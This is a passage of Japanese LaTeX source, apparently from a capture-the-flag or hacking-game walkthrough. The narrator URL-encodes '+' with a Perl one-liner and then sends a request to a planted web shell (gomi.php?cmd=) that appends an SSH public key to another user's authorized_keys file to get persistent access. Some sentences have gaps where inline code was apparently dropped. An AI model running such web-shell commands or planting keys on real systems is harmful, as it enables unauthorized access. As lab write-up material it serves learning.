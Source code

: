 

\begin{multicols}{2}

うっ、しまった。
\ctt{+}がURLエンコードでスペースになってしまったのか。
\ctt{+}はええと、Perlで調べるか。

\begin{lstlisting}
$ perl -MURI::Escape -E 'say uri_escape("+")'
%2B
\end{lstlisting}

どうやら\ctt{+}はであると分った。
後はさっきのの\ctt{+}をへ置換したものを流し込めばよい。
この程度の置換であれば、Vimの機能で一撃だ。

\end{multicols}

\begin{lstlisting}
http://10.2.0.3/stage3xYz/images/gomi.php?cmd=echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBQ/02G
1jx0M6Fw7ybYhKuMNlDrG/6sFyifFWO%2BXdmowzSj%2BL4Ip4LpZer1xCINJWJpcGGeIy1JqcoXDagA70yqWWO9qcstCdSKI
lhCBxD78VBS6%2BftvHXpmM7818npSKGy0yeKaajNIEYQYKUGVYVDcLKWEFXY2utDd2wV3M2BRsEZZyu7jlBOqtfEeQbou3so
36lIipM4FAWaZGzcNtnN40xfQLG1twuDTvxYINqTwbezRueYQXghIWTrD3fyWEDH86BsaQ6oN68XD0sscHuI4IC3/R19afZKi
ti8mHqwmC5JODpZ2McUGzwZIqm55c/h83YP1izckJqaKW7pg9V yoshimura_yuu@yoshimura-yuu.local" >> 
/home/stage4/.ssh/authorized_keys
\end{lstlisting}

